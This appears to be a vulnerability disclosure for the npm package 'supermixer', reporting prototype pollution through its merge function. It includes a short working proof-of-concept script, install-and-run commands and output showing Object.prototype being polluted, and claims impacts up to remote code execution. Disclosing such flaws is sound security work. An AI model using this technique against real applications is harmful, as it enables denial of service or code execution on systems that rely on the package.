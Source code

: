# Description

`supermixer` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { merge } =  require('supermixer')

console.log(`Before: ${{}.polluted}`)
merge({}.__proto__, {polluted: true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i supermixer # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
